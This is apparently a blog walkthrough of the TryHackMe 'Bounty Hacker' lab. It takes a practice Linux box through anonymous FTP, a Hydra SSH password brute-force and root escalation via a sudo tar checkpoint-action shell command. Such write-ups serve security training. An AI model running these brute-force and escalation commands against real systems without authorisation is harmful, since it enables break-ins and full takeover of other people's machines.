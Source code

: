 ```yaml
---
layout: post
title: "Bounty Hacker"
date: 2022-03-21
categories: [Tryhackme, Easy-THM]
tags: [Linux, tar, privesc, ftp, brute-force, security]
image: ../../assets/img/posts/BountyHacker.png 

---
```


## Description

You talked a big game about being the most elite hacker in the solar system. Prove it and claim your right to the status of Elite Bounty Hacker! 

|**Room**|[Bounty Hacker](https://tryhackme.com/room/cowboyhacker)|
|:---:|:---:|
|**OS**|Linux|
|**Difficulty**|Easy|
|**Creator**|[Sevuhl](https://tryhackme.com/p/Sevuhl)|

---

Let's start with rustscan to quickly finds all open ports,

```bash
rustscan -a 10.10.229.96
```

![image](https://user-images.githubusercontent.com/67465230/159214665-39c43705-3f50-4cba-b828-f81f893993b4.png)

we got 3 open ports. Let's run a detail nmap scan on these ports to enumerate details.

```bash
nmap -sV -sC -p21,22,80 10.10.229.96 -oN nmap.txt
```

![image](https://user-images.githubusercontent.com/67465230/159214676-8fb39588-d40f-4b6a-aeba-093a2f36530f.png)

With nmap scan, we got to know that port 21 is running ftp service with anonymous login, port 22 is running ssh service and port 80 is running webserver. We'll first enumerate ftp service and then move towards webserver (port 80).

```bash
ftp 10.10.229.96
```

![image](https://user-images.githubusercontent.com/67465230/159214686-c5603821-9d12-458f-8000-6c7b82412957.png)

after providing credentials, **Anonymous:Anonymous**, we got logged in.

Let's establish directory content using `ls -la`,

![image](https://user-images.githubusercontent.com/67465230/159214704-0974210e-2f20-4f67-aa49-74cd887bff45.png)

we got 2 files named locks.txt and task.txt. Let's download them on our local system using `get` command,

```bash
get locks.txt
get tasks.txt
```

![image](https://user-images.githubusercontent.com/67465230/159214720-4774e0ff-85da-4ec6-9292-b23bc8e6638e.png)

With this, we've downloaded both files on our system. It's time to read the content of these files.

```bash
cat tasks.txt
```

![image](https://user-images.githubusercontent.com/67465230/159214730-36487de5-1c3c-45bc-b253-c2bbac9e623b.png)

After reading content of tasks.txt file, we got to know that Lin is author of the file or maybe a user? Let's see.

Let's read the locks.txt file content,

```bash
cat locks.txt
```

![image](https://user-images.githubusercontent.com/67465230/159214738-7ce1c3d3-9f1a-4799-b6af-f0baa966279e.png)

Seems like these are all passwords. Worth giving a shot to bruteforce to find out correct credential.

Now that we've enumerated ftp, let's enumerate webserver by visiting http://10.10.229.96,

![image](https://user-images.githubusercontent.com/67465230/159214750-7872f1e5-d6bd-4b29-8414-c9303a0634b1.png)

we got a webpage and it seems like these characters are trying to break into system. But since, we don't know the credential to login via ssh, we can't move forward. So let's create a user list which contains name of users,

```bash
cat user.txt
```

![image](https://user-images.githubusercontent.com/67465230/159214759-e5ff2534-10e4-494e-857e-8ce8ba3df213.png)

Reading the content of the file will confirm that we've added all the users.

Now that we've users list and password list, let's try to bruteforce credentials of ssh service with help of tool Hydra,

```bash
hydra -L user.txt -P locks.txt ssh://10.10.229.96:22/ -t 4
```

![image](https://user-images.githubusercontent.com/67465230/159214768-43d762fd-cbed-439b-be34-d415f319cca1.png)

after sometime, we'll get correct username and password. Let's now try to login via ssh service,

```bash
ssh lin@10.10.229.96
```

![image](https://user-images.githubusercontent.com/67465230/159214774-8df3f685-d7eb-4f93-b6c3-b1d60a845df0.png)

we've successfully authenticate ourselves as lin user.

Let's establish directory content using `ls -la`,

![image](https://user-images.githubusercontent.com/67465230/159214789-a0c6713e-e0fd-4a09-9c14-99ca9a9c00f7.png)

we got our user flag.

Now, the part remains is privilege escalation. Let's now list all the binaries which can be run as sudo without providing root user's password, 

```bash
sudo -l
```

![image](https://user-images.githubusercontent.com/67465230/159214802-c5b0f1f1-d565-43b5-bae9-e0beb88ee309.png)

we can see that /bin/tar binary can be run as sudo without providing password. Let's search if this binary privesc is on [GTFObins](https://gtfobins.github.io).

And we found a method to elevate our privileges using this binary,

![image](https://user-images.githubusercontent.com/67465230/159214813-c58cb969-b205-43db-8627-02064439687e.png)

we just have to execute this command and we're root. 

```bash
sudo tar -cf /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
```

![image](https://user-images.githubusercontent.com/67465230/159214833-bcff2850-026b-437a-9e63-f870c679f3a8.png)

after executing this command, we'll become root user and we can confirm it with `id` command.

let's navigate to /root directory and establish directory content using `ls -la`

![image](https://user-images.githubusercontent.com/67465230/159214845-134eda90-eb64-434d-96c0-8f9f09956973.png)

and there we have it, our root flag.